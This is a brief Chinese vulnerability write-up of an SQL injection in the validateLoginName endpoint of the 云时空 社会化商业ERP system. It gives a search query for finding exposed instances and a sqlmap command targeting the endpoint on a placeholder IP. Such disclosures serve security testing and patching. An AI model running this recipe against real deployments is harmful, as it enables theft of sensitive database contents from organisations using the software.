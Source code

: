 # 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

# 云时空 社会化商业ERP系统 validateLoginName SQL注入漏洞

## 漏洞描述

云时空 社会化商业ERP系统存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

```
云时空 社会化商业ERP系统
```

## 网络测绘

```
title="云时空社会化商业ERP"
```

## 漏洞复现

登录页面

![image-20220525102459840](/images/202205251026873.png)

使用SQLmap验证漏洞

```
sqlmap -u "http://xxx.xxx.xxx.xxx/sys/user/validateLoginName?loginName=admin"
```

![image-20220525103355733](/images/202205251033940.png)

